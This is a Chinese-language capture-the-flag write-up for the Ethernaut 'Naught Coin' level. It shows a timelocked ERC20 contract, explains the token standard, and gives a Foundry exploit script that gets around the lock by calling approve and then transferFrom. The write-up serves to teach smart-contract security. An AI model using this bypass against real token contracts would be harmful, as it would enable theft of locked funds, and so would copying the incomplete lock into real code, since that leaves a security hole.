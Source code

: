 # Level 15 - Naught Coin
## 題目
[Naught Coin](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)

### 通關條件
NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。
### 提示
- [ERC20 標準](https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md)
- [OpenZeppelin 程式庫](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts)
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
## 解題
**ERC20** 就是在智能合約中實現發行 Fungible Token (同質化代幣) 的一種代幣標準。簡單來說只要符合 ERC20 中的規範，就可以在 Ethereum 創造自己的代幣並交易，ERC20 中規範發行代幣的合約必須要實現以下六個功能：
  1. 總供給量：`function totalSupply() public view returns (uint256);`  
  一個代幣的總發行量
  2. 帳戶餘額：`function balanceOf(address _owner) public view returns (uint256 balance)` 
  你剩多少代幣
  3. 轉帳：`function transfer(address _to, uint256 _value) public returns (bool success)`  
  你要轉 `_value` 代幣給 `_to`
  
  前三個比較好理解，後面三個比較像是託管的概念：
  
  4. 授權轉帳：`function transferFrom(address _from, address _to, uint256 _value) public returns (bool success)`  
  從 `_from` 轉 `_value` 個代幣到 `_to`，使用後**授權額度**會減少
  5. 授權：`function approve(address _spender, uint256 _value) public returns (bool success)`  
  允許 `_spender` 可以控制你 `_value` 個代幣，使用後**授權額度**會增加
  6. 授權額度：`function allowance(address _owner, address _spender) public view returns (uint256 remaining)`
  回傳 `_spender` 可以控制 `_owner` 多少代幣

針對 ERC20，可以參考一下這些文章：
- [What is the ERC20 token standard?](https://www.bitpanda.com/academy/en/lessons/what-is-the-erc20-token-standard/)
- [到底什麼是ERC-20?](https://medium.com/myethacademy/%E5%88%B0%E5%BA%95%E4%BB%80%E9%BA%BC%E6%98%AFerc-20-49d052e8d290)
- [WTF Solidity极简入门: 31. ERC20](https://github.com/AmazingAng/WTF-Solidity/tree/main/31_ERC20)


---

理解完 ERC20 後，看回來題目。題目要求我們把自己的代幣歸零，歸零的方法就是把代幣通通轉出去，轉出去可以透過**轉帳(transfer), 授權轉帳(transferFrom)** 兩種方式，但是`transfer()`已經被題目實作而且限制 10 年後才能領取。所以這裡我們只要使用**授權轉帳**  的方法就可以把自己的錢轉出去了。  
**授權轉帳**在上一點介紹ERC20的時候有提到過，要先透過**授權**給別的地址，別的地址才可以控制我們的代幣，所以這題的攻擊流程如下：  
  1. **授權**給自己:  
  `approve(address(wallet), 1000000 * (10**18))`
  2. 使用**授權轉帳**把我們錢包的代幣轉回去關卡實例：  `transferFrom(me, address(level15), 1000000 * (10**18)`  

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/15_NaughtCoin.sol";

contract ExploitScript is Script {
    NaughtCoin level15 = NaughtCoin(payable(your_challenge_address));
    address wallet = your_wallet_address; // wallet address

    function run() external {
        vm.startBroadcast();

        uint256 coin = level15.balanceOf(wallet);
        level15.approve(wallet, coin);
        level15.transferFrom(wallet, address(level15), coin);
        
        vm.stopBroadcast();
    }
}
```